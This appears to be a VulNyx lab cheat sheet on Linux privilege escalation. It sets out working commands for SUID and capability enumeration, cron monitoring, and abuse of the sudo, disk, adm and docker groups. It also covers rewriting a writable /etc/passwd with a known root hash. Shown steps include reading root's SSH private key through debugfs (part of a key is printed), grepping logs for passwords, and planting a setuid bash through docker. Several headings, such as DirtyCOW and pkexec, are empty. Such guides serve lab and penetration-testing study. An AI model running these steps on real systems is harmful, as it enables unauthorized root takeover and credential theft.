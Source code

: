 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Enumeration

```bash
# sudo
sudo -l
# If when performing the previous step it tells you that sudo is not found
find / -name sudo 2>/dev/null

# suid
find / -perm -4000 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# capabilities
/usr/sbin/getcap -r / 2>/dev/null

# users
grep "sh$" /etc/passwd

# writable
find / -writable 2>/dev/null
find / -writable 2>/dev/null | grep -viE "proc|sys|dev"
find / -writable -user low 2>/dev/null
```

If I identify a **binary** with `suid` or `sudo` **permissions** [**GTFOBins**](https://gtfobins.github.io) is the way.

### Cron (Task)

View `cron` jobs defined in **global file**:

```bash
cat /etc/crontab
```

If tasks have been defined in the individual file that each user has with `crontab -e`, it is necessary to monitor with specific tools.

#### pspy

Use [**pspy**](https://github.com/DominicBreuker/pspy) tool to **monitor tasks**.

```ruby
low@vulnyx:~$ cd /dev/shm
low@vulnyx:/dev/shm$ wget -q --no-check-certificate "https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64"
low@vulnyx:/dev/shm$ chmod +x pspy64
low@vulnyx:/dev/shm$ ./pspy64
```

#### Bash

You can also use `bash` and do it manually.

```bash
#!/bin/bash

old=$(ps -eo command)
filter="kworker|command|defunct"

function ctrl_c(){
  exit 1
}

trap ctrl_c int

while true; do
  new=$(ps -eo command)
  diff <(echo "$old") <(echo "$new") | grep "[\>\<]" | grep -vE "$filter"
  old=$new
done
```

### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the `adm` **group**, he can **read log files** on the system.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### Doas

---

### pkexec <=0.105-31 (CVE-2021-4034)

---

### sudo <=1.8.27 (CVE-2019-14287)

---

### chkrootkit

---

### DirtyCOW

---

### Path Hijacking (Path Variable)

**Binary**

**Cron**

---

### Python Library Hijacking

---

### Wilcard

### /etc/passwd (Writable)

If a low-privileged user has **write permissions** to the `/etc/passwd` file, an attacker can remove the `x` (on the **root** user line) and add a **hash**, this will cause the file that validates credentials to change from `/etc/shadow` to `/etc/passwd`.

```bash
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
